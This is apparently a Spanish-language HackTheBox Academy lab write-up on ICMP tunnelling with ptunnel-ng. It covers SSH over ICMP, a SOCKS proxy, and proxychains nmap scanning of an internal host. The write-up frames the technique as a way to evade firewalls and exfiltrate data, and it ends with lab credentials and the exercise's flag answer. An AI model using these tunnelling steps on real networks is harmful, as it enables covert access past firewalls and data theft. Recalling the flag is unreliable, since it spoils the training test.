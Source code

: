 
La tunelización ICMP encapsula el tráfico en paquetes ICMP que contienen "echo" solicitudes y respuestas.
Cuando un host dentro de una red con cortafuegos puede hacer ping a un servidor externo, puede encapsular su tráfico dentro de la solicitud de "echo" de ping y enviarlo a dicho servidor. 
El servidor externo puede validar este tráfico y enviar una respuesta adecuada, lo cual resulta extremadamente útil para la exfiltración de datos y la creación de túneles pivote a un servidor externo.

Usaremos la herramienta *ptunnel-ng* para crear un túnel entre nuestro servidor Ubuntu y el host atacante. 
Una vez creado el túnel, podremos redirigir nuestro tráfico a través del cliente ptunnel-ng. Podemos iniciar el servidor ptunnel-ng en el host pivote de destino. 

## Configurando "ptunnel-ng"
Comencemos configurando ptunnel-ng.
En nuestra máquina atacante, lo clonamos de github con:

```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```

Una vez que el repositorio ptunnel-ng se clona en nuestra máquina atacante, podemos ejecutar el script autogen.sh ubicado en la raíz del directorio ptunnel-ng:

```shell-session
Polika4RM@htb[/htb]$ sudo ./autogen.sh 
```

Tras ejecutar "autogen.sh", ptunnel-ng se puede usar tanto en el lado del cliente como del servidor. Ahora debemos transferir el repositorio desde nuestro host de ataque al host objetivo. Como en secciones anteriores, podemos usar SCP para transferir los archivos. 
Si queremos transferir el repositorio completo y los archivos que contiene, debemos usar la opción -r con SCP:

## Transfiriendo y ejecutando el Ptunnel-ng al/en el Pivot Host

Compartimos el archivo "ptunnel-ng" con nuestra máquina Pivot, con el siguiente comando:

```
Polika4RM@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

Iniciamos el servicio con:
```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

La máquina UBUNTU:
- -r10.129.202.64: 
	  Este es el parámetro para el host remoto (remote host). Le dice al servidor ptunnel-ng a dónde debe reenviar el tráfico que recibe. En este caso, le está diciendo que reenvíe el tráfico a la IP 10.129.202.64 (¡la misma máquina donde se está ejecutando!).
- -R22: Este es el parámetro para el puerto remoto (remote port). Especifica a qué puerto del "host remoto" (definido en -r) debe enviar el tráfico. El puerto 22 es el puerto estándar de SSH.

El comando le dice a la máquina WEB01 (con IP 10.129.202.64): "Inicia un servidor de túnel ICMP. Cuando recibas tráfico ICMP (ping) de un cliente ptunnel-ng, saca los datos que vienen escondidos y redirígelos a tu propia IP (10.129.202.64) al puerto 22 (el servicio SSH)."
## Conectándonos desde el atacante al "ptunnel-ng" server. 
Desde la máquina atacante ejecuto:

```shell-session
Polika4RM@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```
- -p10.129.202.64: 
	  Esta es la IP del servidor ptunnel-ng al que te estás conectando (el proxy o peer). 
- -l2222:
	  Le dice a tu propia máquina de atacante que escuche (listen) en el puerto TCP local 2222. Este puerto es la entrada a tu túnel.
- -r10.129.202.64: 
	 Define el host remoto de destino final (el remote host). Es a dónde el servidor (en WEB01) debe reenviar el tráfico que recibe.- 
- -R22: Define el puerto remoto de destino final (el remote port).

Este comando: Abre el puerto TCP 2222 en mi máquina local (localhost). Cuando alguien se conecte a este puerto (la propia máquina), toma ese tráfico, escóndelo dentro de paquetes de ping (ICMP) y envíaselo al servidor ptunnel-ng que está en 10.129.202.64. Dile a ese servidor que, cuando reciba mis pings, reenvíe los datos al destino final 10.129.202.64 en el puerto 22 (SSH).
## Tunelizando una conexión SSH con ICMP Tunnel
Ejecutaré desde el atacante:
```shell-session
Polika4RM@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 11 May 2022 03:10:15 PM UTC

  System load:             0.0
  Usage of /:              39.6% of 13.72GB
  Memory usage:            37%
  Swap usage:              0%
  Processes:               183
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$ 
```

Si se configura correctamente, podremos ingresar credenciales a través del servicio SSH mediente un túnel ICMP. 

## Estableciendo el Dynamic Port Forwarding por SSH

El siguiente comando está creando un túnel dentro de otro túnel, y se puede ejecutar sin la necesidad de ejecutar el comando anterior (ssh -p2222 -lubuntu 127.0.0.1).

Su objetivo principal es usar el parámetro -D 9050 para crear un proxy SOCKS dinámico en tu máquina de atacante. El parámetro -D en el comando ssh es el encargado de establecer el Dynamic Port Forwarding (Reenvío Dinámico de Puertos).
```shell-session
Polika4RM@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```
Hago "ssh -D 9050 -p2222 ..." para crear un proxy SOCKS (dynamic port forward) en mi máquina local cuya salida se encamina, cifrada y autenticada por SSH, hacia la máquina pivote (WEB01) a través del túnel ICMP que cree con ptunnel-ng. Ese proxy te permite emitir cualquier conexión TCP (p. ej. navegador, nmap vía proxychains, herramientas) y que salga desde la red interna del pivote (172.16.5.x).

Este comando anterior lo dejaré en segundo plano.


#### Proxychaining a través del ICMP Tunnel
Con esto, podré ejecutar proxychains:
```shell-session
Polika4RM@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

---

**Target:10.129.255.103**
**SSH to 10.129.255.103 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"**
**1. Using the concepts taught thus far, connect to the target and establish an ICMP tunnel. Pivot to the DC (172.16.5.19, victor:pass@123) and submit the contents of C:\Users\victor\Downloads\flag.txt as the answer.**

Por desactualización de la máquina, utilizaré el método rpivot.
Siendo la respuesta: N3Tw0rkTunnelV1sion!

